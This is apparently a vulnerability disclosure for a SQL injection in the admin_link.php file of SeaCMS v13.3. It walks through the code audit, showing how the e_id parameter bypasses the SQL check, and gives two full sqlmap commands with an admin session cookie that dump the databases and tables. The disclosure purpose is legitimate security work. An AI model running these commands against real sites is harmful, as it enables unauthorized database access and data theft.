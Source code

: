 sql injection vulnerability exists in admin_link.php file in seacms v13.3 background.

download address：https://www.seacms.com/download/

![image-20250409105537792](https://fsrmtuchuang-123.oss-cn-beijing.aliyuncs.com/img2/202504091055023.png)

Set up a local environment:

Here is not a demonstration, after the construction of the situation is as follows:

![image-20250409105629599](https://fsrmtuchuang-123.oss-cn-beijing.aliyuncs.com/img2/202504091056163.png)

Code Audit Process

![image-20250409105810220](https://fsrmtuchuang-123.oss-cn-beijing.aliyuncs.com/img2/202504091058514.png)

Here, when action equals delall, and $e_id is not empty, the  corresponding sql statement will be executed, and this $ids is  controllable.

![image-20250409110002763](https://fsrmtuchuang-123.oss-cn-beijing.aliyuncs.com/img2/202504091100962.png)

Although there is a sql check, and initialization time set to true.

![image-20250409113728421](https://fsrmtuchuang-123.oss-cn-beijing.aliyuncs.com/img2/202504091137517.png)

![image-20250409113815628](https://fsrmtuchuang-123.oss-cn-beijing.aliyuncs.com/img2/202504091138743.png)

But admin_link.php contains config.php which is set to false, so this check does not hold.

![image-20250409113905531](https://fsrmtuchuang-123.oss-cn-beijing.aliyuncs.com/img2/202504091139663.png)

![image-20250409113919997](https://fsrmtuchuang-123.oss-cn-beijing.aliyuncs.com/img2/202504091139094.png)

sqlmap Run it:

```
python sqlmap.py -u "http://seacms.com:8888/2knum/admin_link.php?action=delall&e_id[]=111" -p "e_id[]" --cookie "t00ls=e54285de394c4207cd521213cebab040; t00ls_s=YTozOntzOjQ6InVzZXIiO3M6MjY6InBocCB8IHBocD8gfCBwaHRtbCB8IHNodG1sIjtzOjM6ImFsbCI7aTowO3M6MzoiaHRhIjtpOjE7fQ%3D%3D; PHPSESSID=0c3k9fd0tah3h4i93v6g63dur6" --dbs
```

The cookie here is my login background cookie, specify it

![image-20250409110526488](https://fsrmtuchuang-123.oss-cn-beijing.aliyuncs.com/img2/202504091105808.png)

You can run out of the database. 

The following is the table:

```
python sqlmap.py -u "http://seacms.com:8888/2knum/admin_link.php?action=delall&e_id[]=111" -p "e_id[]" --cookie "t00ls=e54285de394c4207cd521213cebab040; t00ls_s=YTozOntzOjQ6InVzZXIiO3M6MjY6InBocCB8IHBocD8gfCBwaHRtbCB8IHNodG1sIjtzOjM6ImFsbCI7aTowO3M6MzoiaHRhIjtpOjE7fQ%3D%3D; PHPSESSID=0c3k9fd0tah3h4i93v6g63dur6" -D seacms --tables
```

![image-20250409114001293](https://fsrmtuchuang-123.oss-cn-beijing.aliyuncs.com/img2/202504091140639.png)

The contents of the database behind can also be run out.

 
